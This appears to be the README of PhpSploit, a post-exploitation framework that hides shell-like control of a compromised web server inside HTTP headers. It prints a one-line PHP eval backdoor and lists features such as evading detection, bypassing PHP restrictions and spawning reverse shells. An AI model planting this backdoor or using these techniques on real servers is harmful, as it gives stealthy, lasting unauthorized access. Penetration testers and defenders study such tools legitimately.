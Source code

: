### PhpSploit: *Advanced post-exploitation framework* ###

PhpSploit is a **remote control** framework, aiming to provide a **stealth**
interactive shell-like connection over HTTP between client and web server.
It is a post-exploitation tool capable to maintain access to a
compromised web server for **privilege escalation** purposes.

![][picture]

---------------------------------------------------------------------
#### Overview ####

The obfuscated communication is accomplished using HTTP headers under
valid client HTTP requests and web server's responses, tunneled through
a tiny **polymorphic backdoor**:
```php
<? @eval($_SERVER['HTTP_PHPSPL01T']) ?>
```

---------------------------------------------------------------------
#### Features ####

- More than 20 plugins to automate post-exploitation tasks:
    - Run commands and browse filesystem, bypassing PHP security restrictions
    - Upload/Download files between client and target
    - Edit remote files through local text editor
    - Run SQL console on target system
    - Spawn reverse TCP shells

- Nearly invisible by log analysis and NIDS signature detection
- Safe-mode and common PHP security restrictions bypass
- Communications are hidden in HTTP Headers
- Loaded payloads are obfuscated to bypass NIDS
- Multi-request support for large payloads
- Highly configurable through dynamic settings engine
- HTTP/HTTPS Proxy support
- And even more...




[picture]: https://raw.githubusercontent.com/nil0x42/phpsploit/destiny/data/img/phpsploit-demo.png

